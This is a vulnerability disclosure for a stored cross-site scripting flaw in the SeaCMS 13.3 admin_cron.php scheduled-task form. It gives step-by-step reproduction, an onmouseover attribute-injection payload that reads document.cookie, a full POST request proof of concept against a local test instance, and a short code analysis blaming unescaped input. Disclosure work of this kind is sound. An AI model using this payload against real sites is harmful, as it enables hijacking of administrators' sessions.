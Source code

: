 ### <font style="color:rgb(31, 35, 40);">seacms13.3 admin_cron.php stored xss</font>
<font style="color:rgb(31, 35, 40);">Visit the admin_cron.php route and enter the parameter action=addCron</font>

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742105864456-0ad455a9-9206-4c0e-bc89-95be52b32c37.png)

<font style="color:rgb(31, 35, 40);">Go to the following page</font>

<font style="color:rgb(31, 35, 40);"></font>

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106134780-2284c08c-1afe-468d-b7b7-3e3c0c9f2067.png)

Fill in the planned task name and settings

 " onmouseover=alert(document.cookie) type="

Weekly optional

The rest is OK by default



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106176088-831558d3-e46b-4458-9a1f-fd639c8ecc2e.png)

Click Add planned task

perhaps

Directly add a user-defined scheduled task

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106255437-65f33712-3b46-4091-9a61-fb6c408819de.png)

Click Add planned task

The result is the same

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106457140-93cb0c5e-5c22-4d59-a668-5217c7d6a95f.png)

Re enter in name

" /onmouseover=alert(document.cookie) type=&qu

Click Submit



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106421611-6955513f-fdaa-45b7-8f8a-e8b558175ddd.png)



Move the mouse to the name box



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742106495474-813e4f38-f7de-45f5-8e38-e275bcc2a34e.png)

<font style="color:rgb(31, 35, 40);">Success pop-up window</font>



Poc



```php
POST /l6bfwk/admin_cron.php?action=addCron HTTP/1.1
Host: 127.0.0.1:8008
Content-Length: 290
Cache-Control: max-age=0
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8008
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8008/l6bfwk/admin_cron.php?
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=icuu8ee5snolh7c11l6ddo4n42
Connection: close

PlanMode=1&newname=+%22+onmouseover%3Dalert%28document.cookie%29+type%3D%22&resourcefrom=0&collectID=0&collectPageNum=1&autogetconnum=10&collectIDnews=0&collectPageNum=1&autogetconnum=10&weekdaynew=0&daynew=-1&hournew=-1&minutenew=+%22%2F+onmouseover%3Dalert%28document.cookie%29+type%3D%22
```

Modify the name after sending POC and slide the mouse to automatically pop up a window

  
 <font style="color:rgb(31, 35, 40);">The following is code analysis</font>

<font style="color:rgb(31, 35, 40);">There is the following code in admin_cron.php</font>

<font style="color:rgb(31, 35, 40);"></font>

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742105106973-5479716a-5593-4e60-a5a0-c4a4faeb8584.png)



When updating the database, $name is directly used without any escape or filtering, resulting in a storage XSS vulnerability.



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742105381888-9e55d643-1d8b-4bec-bba6-1072977f3c75.png)

<font style="color:rgb(31, 35, 40);">It can be found that the page will output our adsbody to the page, and then store it in the database, resulting in stored xss</font>

